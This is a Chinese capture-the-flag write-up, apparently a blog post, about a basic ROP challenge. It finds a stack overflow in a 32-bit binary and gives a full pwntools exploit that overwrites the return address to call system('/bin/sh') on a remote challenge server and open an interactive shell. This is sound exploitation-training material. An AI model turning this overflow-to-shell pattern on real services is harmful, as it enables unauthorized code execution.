 此题考验的是对ROP链攻击的基础

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215139422-2052308218.png)

万事开头PWN第一步checksec 一下

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215139212-1780470260.png)

32位的小端程序，扔进IDA

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215138975-1329046888.png)

进入函数，找出栈溢出漏洞。

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215138746-605401308.png)

又是这个位置的栈溢出，read的0x100，buf的0x88，根据提示，寻找构建ROP链的攻击

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215138489-346669972.png)

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215138192-327910748.png)

直接就找到了system和/bin/sh，开始写exp

```python
from pwn import *
io = remote('111.200.241.244',56855)
#连接远程
elf = ELF('./1ab77c073b4f4524b73e086d063f884e')
#elf载入本地程序，因为没有开PIE
system_adr = elf.plt['system']
#获取system在plt表中的地址
binsh_adr = next(elf.search(b'/bin/sh'))
#在程序搜寻binsh的地址
payload = b'a'*(0x88+4) + p32(system_adr) + b'dead'+p32(binsh_adr)
#buf定义了0x88个字节，+4覆盖ebp，填入system地址
#b'dead'是system的返回地址，我瞎写的，为了栈平衡
#传入binsh的地址
io.recv()
io.send(payload)
io.interactive()
```

然后去运行一下exp，攻击完成，老师，交交交。。。交卷！！！

![](https://img2020.cnblogs.com/blog/2500585/202108/2500585-20210824215137906-2036721125.png)